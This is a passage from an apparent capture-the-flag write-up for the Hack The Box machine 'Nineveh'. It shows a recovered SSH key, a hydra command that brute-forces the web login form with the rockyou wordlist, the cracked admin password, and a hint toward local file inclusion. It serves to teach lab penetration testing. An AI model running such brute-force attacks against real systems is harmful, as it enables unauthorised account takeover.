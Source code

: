 ```console
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuL0RQPtvCpuYSwSkh5OvYoY//CTxgBHRniaa8c0ndR+wCGkgf38HPVpsVuu3Xq8fr+N3ybS6uD8Sbt38Umdyk+IgfzUlsnSnJMG8gAY0rs+FpBdQ91P3LTEQQfRqlsmS6Sc/gUflmurSeGgNNrZbFcNxJLWd238zyv55MfHVtXOeUEbkVCrX/CYHrlzxt2zm0ROVpyv/Xk5+/UDaP68h2CDE2CbwDfjFmI/9ZXv7uaGC9ycjeirC/EIj5UaFBmGhX092Pj4PiXTbdRv0rIabjS2KcJd4+wx1jgo4tNH/P6iPixBNf7/X/FyXrUsANxiTRLDjZs5v7IETJzVNOrU0R amrois@nineveh.htb
```

The only problem with that is that the SSH port of the victime machine is close. Maybe later we will do a `port knocking` or a `port forwarding`, for now just change its permission to 600.
```console
$ chmod 600 id_rsa
```
# Initial Foothold
Getting back with the 80 port, let’s run hydra on the login form to try found the password for the user admin.

```plaintext
hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password\!"
```

![07-hydra](/assets/img/HTB/Nineveh/07-hydra.png)

User|Password
-|-
admin|1q2w3e4r5t

The URL use a file path as an argument, that why I thought in LFI.

![08-web](/assets/img/HTB/Nineveh/08-web.png)
